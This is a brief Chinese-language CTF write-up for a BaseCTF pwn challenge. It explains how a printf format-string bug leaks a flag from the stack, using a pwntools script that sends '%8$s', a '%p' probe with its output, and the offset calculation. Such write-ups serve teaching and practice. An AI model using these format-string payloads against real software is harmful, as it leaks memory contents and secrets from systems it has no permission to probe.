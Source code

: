 # Basectf pwn方向“string_format_level0”

by Maple

题目就是提示，格式化字符串主要的点就是找到偏移量（也可以直接一个个试试，不会太多）

```python
from pwn import *
p = process('./vuln')
payload = b'%8$s'
p.sendline(payload)
p.interactive()
```

## 偏移量计算

![alt text](image.png)

这里elf先是打开了flag文件，并且把flag的内容read到v6中，此时flag的值就在栈上，所以只要将flag从栈上泄露出来就好，刚好下面就有printf，存在格式化字符串漏洞

![alt text](image-1.png)

```text
>./vuln
aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa 0x7ffe277639f0 0x100 0x7effbc4807e2 0x21001 0x55aedd9902a0 (nil) 0x300000000 0x55aedd9902a0 0x10 0x2070252061616161 0x7025207025207025
```

可以看到我们输入的数据相对于栈的偏移为10，而flag在我们写入数据的上面两行，所以相对于栈的偏移是8

所以其实nc之后%8$s就行（将第8位以%s的格式输出）